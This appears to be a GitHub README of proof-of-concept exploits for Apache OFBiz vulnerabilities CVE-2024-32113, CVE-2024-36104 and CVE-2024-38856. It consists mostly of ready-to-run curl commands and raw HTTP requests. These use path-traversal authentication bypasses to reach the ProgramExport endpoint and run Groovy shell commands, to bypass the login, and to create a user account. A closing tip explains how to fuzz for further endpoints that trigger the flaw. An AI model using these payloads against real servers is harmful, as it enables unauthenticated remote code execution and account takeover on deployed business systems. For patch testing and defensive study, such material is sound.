



# Apache OfBiz vulns

### POC for CVE-2024-32113

The `USERNAME` and `PASSWORD` params can be provided at the `/ecomseo/AnonContactus` interface, which is publicly accessible to anyone.

- POC1：RCE

  ```shell
  curl --noproxy '*' -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/../../../%2e/webtools/control/ProgramExport' \
  --header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
  --header 'Accept: */*' \
  --header 'Host: 127.0.0.1:8443' \
  --header 'Connection: keep-alive' \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'USERNAME=t@t.com' \
  --data-urlencode 'JavaScriptEnabled=Y' \
  --data-urlencode 'PASSWORD=12345' \
  --data-urlencode 'groovyProgram=println (('\''tou'\'' + '\''ch /tmp/success'\'').execute().text);'
  ```

- POC2：You can bypass the login to access the restricted webtools management interface.

  ```shell
  curl --noproxy '*' -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/../../../%2e/webtools/control/login/' \
  --header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
  --header 'Accept: */*' \
  --header 'Host: 127.0.0.1:8443' \
  --header 'Connection: keep-alive' \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'USERNAME=t@t.com' \
  --data-urlencode 'PASSWORD=12345' \
  --data-urlencode 'JavaScriptEnabled=Y'
  ```

- POC3：You can register a regular user account, where `userLoginId` as username. 

  ```shell
  curl --noproxy '*'  -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/../../../%2e/webtools/control/createUserLogin' \
  --header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
  --header 'Accept: */*' \
  --header 'Host: 127.0.0.1:8443' \
  --header 'Connection: keep-alive' \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'USERNAME=t@t.com' \
  --data-urlencode 'PASSWORD=12345' \
  --data-urlencode 'JavaScriptEnabled=Y' \
  --data-urlencode 'enabled=Y' \
  --data-urlencode 'partyId=' \
  --data-urlencode 'userLoginId=30000' \
  --data-urlencode 'currentPassword=12345' \
  --data-urlencode 'currentPasswordVerify=12345' \
  --data-urlencode 'passwordHint=' \
  --data-urlencode 'requirePasswordChange=N' \
  --data-urlencode 'securityQuestion=' \
  --data-urlencode 'SecurityAnswer=' \
  --data-urlencode 'externalAuthId='
  ```

### POC For CVE-2024-36104

- RCE1

  ```shell
  curl --noproxy '*' -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/.%2e/.%2e/.%2e/webtools/control/ProgramExport' \
  --header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
  --header 'Accept: */*' \
  --header 'Host: 127.0.0.1:8443' \
  --header 'Connection: keep-alive' \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'USERNAME=t@t.com' \
  --data-urlencode 'JavaScriptEnabled=Y' \
  --data-urlencode 'PASSWORD=12345' \
  --data-urlencode 'groovyProgram=println (('\''tou'\'' + '\''ch /tmp/success'\'').execute().text);'
  ```

- RCE2

  ```shell
  curl --noproxy '*' -k --location --request POST 'https://127.0.0.1:8443/xxx/yyy/zzz/..;/..;/..;/webtools/control/ProgramExport' \
  --header 'User-Agent: Apifox/1.0.0 (https://apifox.com)' \
  --header 'Accept: */*' \
  --header 'Host: 127.0.0.1:8443' \
  --header 'Connection: keep-alive' \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'USERNAME=t@t.com' \
  --data-urlencode 'JavaScriptEnabled=Y' \
  --data-urlencode 'PASSWORD=12345' \
  --data-urlencode 'groovyProgram=println (('\''tou'\'' + '\''ch /tmp/success'\'').execute().text);'
  ```

  PS: `;` will make cookie setting throw exception, you need to get cookie manually. 

  


=======

### POC For CVE-2024-38856

- RCE

  ```http
  POST /webtools/control/forgotPassword/ProgramExport HTTP/1.1
  Content-Type: application/x-www-form-urlencoded
  Host: 127.0.0.1:8443
  
  groovyProgram=throw+new+Exception('id'.execute().text);
  ```

  **PS**：The `forgotPassword` can be replaced with other requests. You can try searching for it in `webapp/webtools/WEB-INF/controller.xml` (as shown in the picture) to perform fuzzing. As long as the request successfully returns `success`, it can trigger RCE in the `ProgramExport` module.

  
